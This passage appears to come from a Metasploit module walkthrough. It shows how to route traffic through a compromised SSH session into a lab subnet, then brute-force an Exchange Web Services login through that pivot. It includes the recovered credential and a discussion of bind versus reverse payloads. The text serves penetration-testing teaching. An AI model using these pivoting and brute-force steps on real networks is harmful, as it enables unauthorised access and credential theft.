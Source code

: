 ```
        RX packets 2302  bytes 170198 (170.1 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 2302  bytes 170198 (170.1 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

ping -c 4 192.168.101.217
PING 192.168.101.217 (192.168.101.217) 56(84) bytes of data.
64 bytes from 192.168.101.217: icmp_seq=1 ttl=128 time=1.35 ms
64 bytes from 192.168.101.217: icmp_seq=2 ttl=128 time=0.525 ms
64 bytes from 192.168.101.217: icmp_seq=3 ttl=128 time=0.807 ms
64 bytes from 192.168.101.217: icmp_seq=4 ttl=128 time=0.575 ms

--- 192.168.101.217 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3039ms
rtt min/avg/max/mdev = 0.525/0.813/1.347/0.325 ms

^Z
Background session 1? [y/N]  y
msf6 auxiliary(scanner/ssh/ssh_login) >

```

Route all the traffic to this subnet through the SSH session. The syntax is
`route add <subnet> <netmask> <session ID>` or `route add <CIDR> <session ID>`:
```
msf6 auxiliary(scanner/ssh/ssh_login) > route add 192.168.144.0/24 1
[*] Route added
msf6 auxiliary(scanner/ssh/ssh_login) > route

IPv4 Active Routing Table
=========================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.144.0      255.255.255.0      Session 1

[*] There are currently no IPv6 routes defined.
```

Finally, run a brute force against the Exchange Web Services endpoint through
the pivot:
```
msf6 auxiliary(scanner/ssh/ssh_login) > use auxiliary/scanner/http/owa_ews_login
msf6 auxiliary(scanner/http/owa_ews_login) > run rhosts=192.168.101.217 USER_FILE=./user_file.txt PASS_FILE=./pass_file.txt

[+] Found NTLM service at /ews/ for domain NEWLAB.
[+] 192.168.101.217:443 - Successful login: mailuser:123456
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

## Exploit
We can now attempt to exploit the target using these credentials. We have two
options for the session: we can use a `bind` payload that will connect to the
target from the pentester's host through the pivot or use a `reverse` payload
that will connect back from the target to the pentester's host through the
pivot, but this time, in the opposite direction. The former is not always
possible since a firewall is likely to block incoming connections to the
target. The reverse payload is usually preferred.

